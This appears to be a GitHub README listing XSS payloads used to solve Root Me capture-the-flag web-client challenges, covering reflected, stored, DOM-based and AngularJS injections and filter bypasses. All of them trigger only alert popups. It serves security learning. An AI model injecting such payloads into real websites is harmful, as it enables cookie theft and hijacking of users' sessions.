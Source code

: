 
# 🛡️ RootMe XSS Payloads Showcase

This is a documentation of XSS tests I performed on the [Root Me](https://www.root-me.org) platform. The purpose is to demonstrate the existence of XSS vulnerabilities using a **simple alert popup**, without any malicious exploitation.

---

## 🔁 Reflected XSS
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)  
  📌 Payload:
  ```html
  ' autofocus onfocus=alert(document.cookie) x="
  ```

---

## 📝 Stored XSS 1
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)  
  📌 Payload:
  ```html
  <img src=x onerror=alert(1)>
  ```

---

## 📝 Stored XSS 2
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)  
  📌 Inject in Cookie "status":
  ```html
  "><img src=x onerror=alert(1)>
  ```

---

## 🎭 Stored XSS - Filter Bypass
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)  
  📌 Payload (JSFuck style):
  ```html
  <button autofocus onfocus=(eval)(JSFuck_Payload_Here)></button>
  ```

---

## 🧭 DOM XSS - Introduction
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)  
  📌 Payload:
  ```js
  '-alert(1)-'
  ```

---

## ⚙️ DOM XSS - AngularJS
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)  
  📌 Payload:
  ```html
  {{constructor.constructor("alert(1)")()}}
  ```

---

## 💻 DOM XSS - Eval
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)  
  📌 Payload:
  ```js
  1+1+alert`XSS`
  ```

---

## 🔎 DOM XSS - Filters Bypass
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass)  
  📌 Payload:
  ```js
  '-alert(1)-'
  ```

---

## 🔐 Self XSS - DOM Secrets
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-DOM-Secrets)  
  📌 Payload:
  ```html
  document.write('<script>alert(1)</script>');
  ```

---

## 🕒 Self XSS - Race Condition
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-Race-Condition)  
  📌 Payload:
  ```html
  element.innerHTML='<img src=1 onerror=alert(document.domain)>'
  ```

---

## ⚠️ Notes
- All payloads are intended for educational purposes only.
- No actual data was stolen or maliciously used.
- The goal is to show the existence of the XSS vulnerabilities in a harmless way.

---

## 🧠 Further Learning
- [PortSwigger XSS Academy](https://portswigger.net/web-security/cross-site-scripting)
- [XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

---
